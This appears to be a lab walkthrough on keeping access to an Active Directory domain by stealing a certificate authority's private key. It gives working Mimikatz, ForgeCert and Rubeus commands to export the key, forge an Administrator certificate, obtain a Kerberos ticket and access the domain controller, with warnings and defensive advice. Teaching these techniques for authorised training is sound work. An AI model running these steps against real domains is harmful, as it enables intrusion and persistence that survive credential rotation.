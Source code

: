 # Persistence Through Certificates in Active Directory

> **Warning:**  
> The following techniques are highly invasive and difficult to remediate. Even with authorization, use extreme caution. In real-world scenarios, exploiting these methods often requires a full domain rebuild. Only proceed if you have explicit approval and fully understand the consequences. In most red team exercises, these persistence techniques are simulated rather than executed.

---

## Credential-Agnostic Persistence

Previous persistence methods relied on credentials, which defenders can rotate to remove access. To achieve more robust persistence, attackers may use techniques that are not affected by credential changes—such as abusing certificates.

---

## The Return of AD CS

In earlier exercises, certificates were used to escalate privileges to Domain Admin. Certificates can also be leveraged for persistence. With a valid certificate for Client Authentication, an attacker can continually request Ticket Granting Tickets (TGTs), regardless of account password changes. The only way to remove this access is to revoke or let the certificate expire—often years later.

For a refresher on requesting and using certificates for Kerberos authentication, refer to the Exploiting AD or AD Certificates Template rooms. Here, the focus is on compromising the Certificate Authority (CA) itself.

---

## Stealing the CA Private Key

If you have sufficient access, you can steal the root CA's private key and generate your own certificates at will. Certificates created this way cannot be revoked by the blue team, as they were never officially issued. The only remediation is to rotate the CA, invalidating all certificates and requiring a full re-issuance—a massive undertaking.

---

### Extracting the Private Key

The CA's private key is stored on the CA server. Unless protected by a Hardware Security Module (HSM), it is secured by the machine's Data Protection API (DPAPI). Tools like **Mimikatz** and **SharpDPAPI** can extract the CA certificate and private key.

**Example: Using Mimikatz to View Certificates**

```shell
mimikatz # crypto::certificates /systemstore:local_machine
```

If the key is not exportable, Mimikatz can patch memory to make it exportable:

```shell
mimikatz # privilege::debug
mimikatz # crypto::capi
mimikatz # crypto::cng
```

**Exporting Certificates:**

```shell
mimikatz # crypto::certificates /systemstore:local_machine /export
```

Exported certificates will be saved in both PFX and DER formats. The `za-THMDC-CA.pfx` file is of particular interest. By default, Mimikatz uses the password `mimikatz` for exported PFX files.

---

## Generating Forged Certificates

With the CA certificate and private key, use **ForgeCert** to create a new client authentication certificate for any user:

```shell
ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
```

**Parameter explanations:**
- `--CaCertPath`: Path to the exported CA certificate.
- `--CaCertPassword`: Password for the CA certificate (default: `mimikatz`).
- `--Subject`: Common name for the certificate (arbitrary).
- `--SubjectAltName`: UPN of the user to impersonate.
- `--NewCertPath`: Output path for the new certificate.
- `--NewCertPassword`: Password to protect the new certificate.

---

## Requesting a TGT with Rubeus

Use **Rubeus** to request a TGT using the forged certificate:

```shell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path_to_certificate> /password:<cert_password> /outfile:<output_file> /domain:za.tryhackme.loc /dc:<DC_IP>
```

**Parameter explanations:**
- `/user`: User to impersonate (must match UPN in certificate).
- `/enctype`: Encryption type (e.g., `aes256`).
- `/certificate`: Path to the generated certificate.
- `/password`: Password for the certificate file.
- `/outfile`: Output file for the TGT.
- `/domain`: Target domain.
- `/dc`: Domain controller IP (preferably one running CA services).

---

## Loading the TGT and Accessing Resources

Use **Mimikatz** to load the TGT and authenticate:

```shell
mimikatz # kerberos::ptt administrator.kirbi
```

You can now access resources as the impersonated user, e.g.:

```shell
dir \\THMDC.za.tryhackme.loc\c$\
```

---

## Why Certificate Persistence Is Dangerous

Certificate-based persistence is extremely difficult to defend against. Rotating account credentials does not invalidate the certificate. If the certificate was forged using a stolen CA key, it cannot be revoked through AD CS. The only solution is to revoke the root CA certificate, which invalidates all certificates issued by AD CS—requiring a complete re-issuance and potentially a full rebuild of affected systems.

---

> **Summary:**  
> Certificate persistence is a powerful and dangerous technique. It is rarely used in real-world red team exercises due to the risk and impact. Defenders must be aware of this threat and protect CA private keys with strong hardware-based security.

